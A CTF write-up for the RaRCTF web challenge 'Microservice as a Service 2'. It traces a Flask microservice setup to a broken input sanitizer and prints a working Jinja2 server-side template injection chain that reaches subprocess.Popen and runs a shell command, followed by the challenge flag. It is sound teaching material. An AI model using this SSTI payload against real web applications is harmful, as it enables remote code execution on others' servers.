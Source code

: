 ```yaml
---
grand_parent: Categories
parent: Web
title: Microservice as a Service 2
nav_order: 4
---
```


# Microservice as a Service 2

```
Part 2: Notes

https://maas.rars.win/
```

### Challenge

> TL;DR: Solved by unintended solution due to improper input sanitization.

Once again, we begin by analyzing the docker network layout. We will be able to access `notes` from the main application. We also see that there are 2 additional hosts, `redis_users` and `redis_userdata`, which we cannot reach from the main application directly as they reside in `notes-net`:
```yml
  notes:
    build: notes
    depends_on: ["redis_users", "redis_userdata"]
    networks:
      - level-1
      - notes-net
  redis_users:
    image: library/redis:latest
    networks:
      - notes-net
  redis_userdata:
    build: notes/redis_userdata
    networks:
      - notes-net
```

Looking at how the main application calls the `notes` network, we see that we first have to register with a `username` and afterwards we will get a  `uid` assigned to our session.

**Source**: `app/app.py`
```py
@app.route('/notes/profile', methods=["POST", "GET"])
def profile():
    username = session.get('notes-username')
    if not username:
        return redirect('/notes/register')
    uid = requests.get(f"http://notes:5000/getid/{username}").text
    // ...

@app.route('/notes/register', methods=["GET", "POST"])
def register():
    if request.method == "GET":
        return render_template('register.html')
    data = {"mode": "register", "username": request.form.get("username")}
    requests.post("http://notes:5000/useraction", data=data)
    session["notes-username"] = request.form.get("username")
    return redirect("/notes/profile")
```

**Source**: `app/notes/app.py`
```py
@app.route('/useraction', methods=["POST"])
def useraction():
    mode = request.form.get("mode")
    username = request.form.get("username")
    if mode == "register":
        r = requests.get('http://redis_userdata:5000/adduser')
        port = int(r.text)
        red = redis.Redis(host="redis_users")
        red.set(username, port)
        return ""

@app.route('/getid/<username>')
def getid(username):
    red = redis.Redis(host="redis_users")
    return red.get(username).decode()
```

At this point, we observe that a Redis database is being deployed on the `redis_users` host.

**Source**: `app/notes/redis_userdata/app.py`
```js
@app.route('/adduser')
def adduser():
    port = random.randint(50000, 60000)
    if os.system(f"redis-server --port {port} --daemonize yes --protected-mode no") == 0:
        return str(port), 200
    else:
        return "0", 500
```

To summarize, each time a `username` is registered, a random port number from 50000 to 60000 is generated and opened on the `redis_userdata` host. This port number is made known to `notes` host, which stores it to a Redis instance running on `redis_users` host in the format `{username:port}`.

Now that the application is clear to us, it's time to find the path forward. It appears that each user can save a `bio` to their own profile. This bio is treated as a template and rendered when a GET request is sent to the `/notes/profile` route on the main application server. Perhaps we can perform SSTI?

**Source**: `app/app.py`
```py
def render_bio(username, userdata):
    data = {"username": username,
            "mode": "bioget"}
    r = requests.post("http://notes:5000/useraction", data=data)
    try:
        r = requests.post("http://notes:5000/render", json={"bio": r.text, "data": userdata})
        return r.text
    except:
        return "Error in bio"

@app.route('/notes/profile', methods=["POST", "GET"])
def profile():
    // ...
    if request.method == "GET":
        return render_template("profile.html",
                               bio=render_bio(username, userdata(username)),
                               userid=uid
                               )
    // ...
```

It appears that whatever a user loads their own profile, the main application makes a request to `http://notes/useraction` with the `mode` set to `bioget`. This results in the following code to execute on `notes` server:

**Source**: `app/notes/app.py`
```py
elif mode == "bioget":
    red = redis.Redis(host="redis_users")
    port = red.get(username).decode()
    r = requests.get(f"http://redis_userdata:5000/bio/{port}")
    return r.text
```

Which in turns retrieves `bio` from the `redis_userdata` host:

**Source**: `app/notes/redis_userdata/app.py`
```py
@app.route("/bio/<port>", methods=["POST", "GET"])
def bio(port):
    if request.method == "GET":
        if os.path.exists(f"/tmp/{port}.txt"):
            with open(f"/tmp/{port}.txt") as f:
                return f.read()
        else:
            return ""
    elif request.method == "POST":
        with open(f"/tmp/{port}.txt", 'w') as f:
            f.write(request.json.get("bio"))
        return ""
```

After retrieving a `bio`, the main application will make a request to the `notes` host, which will in turn render the data sent as a template.

**Source**: `app/app.py:render_bio()`
```py
r = requests.post("http://notes:5000/render", json={"bio": r.text, "data": userdata})
        return r.text
```

**Source**: `app/notes/app.py`
```py
@app.route("/render", methods=["POST"])
def render_bio():
    data = request.json.get('data')
    if data is None:
        data = {}
    return render_template_string(request.json.get('bio'), data=data)
```

So, we just have to save SSTI payloads in our `bio`, right? But, remember that the `bioadd` code sanitizes our input?

**Source**: `app/notes/app.py`
```py
elif mode == "bioadd":
        bio = request.form.get("bio")
        bio.replace(".", "").replace("_", "").\
            replace("{", "").replace("}", "").\
            replace("(", "").replace(")", "").\
            replace("|", "")

        bio = re.sub(r'\[\[([^\[\]]+)\]\]', r'{{data["\g<1>"]}}', bio)
        red = redis.Redis(host="redis_users")
        port = red.get(username).decode()
        r = requests.post(f"http://redis_userdata:5000/bio/{port}", json={
            "bio": bio
        })
        return r.text
```

Notice anything off? The return value of the `.replace()` chain was never re-assigned into the `bio` variable. This breaks the sanitization process and we are able to directly inject SSTI payloads!

Performing the typical payload testing to leak the `subprocess.Popen` class, we found the offset to be at 278:

```
{{ ''.__class__.__mro__ }}
    -> (<class 'str'>, <class 'object'>)

{{ ''.__class__.__mro__[1].__subclasses__() }}
    -> [<class 'type'>, <class 'weakref'>, ... ]
    -> Index of <class 'subprocess.Popen'> is [278]

{{ ''.__class__.__mro__[1].__subclasses__()[278]('cat /flag.txt', shell=True, stdout=-1).communicate() }}
```

<img src="images/maas2-01.jpg">

Save the final payload as a `bio` and upon the page reload, we will see the flag displayed to us.

<img src="images/maas2-02.jpg">

Flag: `rarctf{wh4t_w4s_1_th1nk1ng..._60a4ee96}`
